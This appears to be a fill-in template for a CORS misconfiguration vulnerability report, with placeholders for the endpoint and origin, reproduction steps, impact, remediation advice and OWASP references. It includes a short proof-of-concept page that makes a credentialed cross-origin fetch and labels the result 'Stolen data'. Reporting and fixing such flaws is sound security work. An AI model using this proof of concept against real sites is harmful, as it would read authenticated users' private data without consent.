 # {title}

**Vulnerability Type:** Cross-Origin Resource Sharing (CORS) Misconfiguration  
**Severity:** {severity}  
**Date:** {date}

## Summary
A CORS misconfiguration was discovered that allows unauthorized cross-origin requests from potentially malicious domains.

## Vulnerable Endpoint
- **URL:** `{url}`
- **Malicious Origin:** `{origin}`

## Proof of Concept

### Steps to Reproduce
1. Create a malicious webpage hosted on `{origin}`
2. Make an AJAX request to: `{url}`
3. Observe that the request is successful and credentials are included

### Example Malicious Code
```html
<!DOCTYPE html>
<html>
<head>
    <title>CORS PoC</title>
</head>
<body>
    <script>
        fetch('{url}', {{
            method: 'GET',
            credentials: 'include'
        }})
        .then(response => response.text())
        .then(data => {{
            console.log('Stolen data:', data);
            // Send data to attacker server
        }})
        .catch(error => console.error('Error:', error));
    </script>
</body>
</html>
```

### Expected Response Headers
```http
Access-Control-Allow-Origin: {origin}
Access-Control-Allow-Credentials: true
```

## Impact
- Sensitive data theft from authenticated users
- Cross-site request forgery (CSRF) attacks
- Session hijacking
- Unauthorized API access

## Risk Rating
**{severity}** - CORS misconfiguration can lead to unauthorized access to sensitive user data.

## Remediation
1. Implement a strict whitelist of allowed origins
2. Avoid using wildcards (*) with credentials
3. Validate Origin headers server-side
4. Use proper CORS middleware/libraries
5. Implement SameSite cookie attributes
6. Regular security audits of CORS configurations

## References
- [OWASP CORS Security Cheat Sheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Origin_Resource_Sharing_Cheat_Sheet.html)
- [MDN CORS Documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)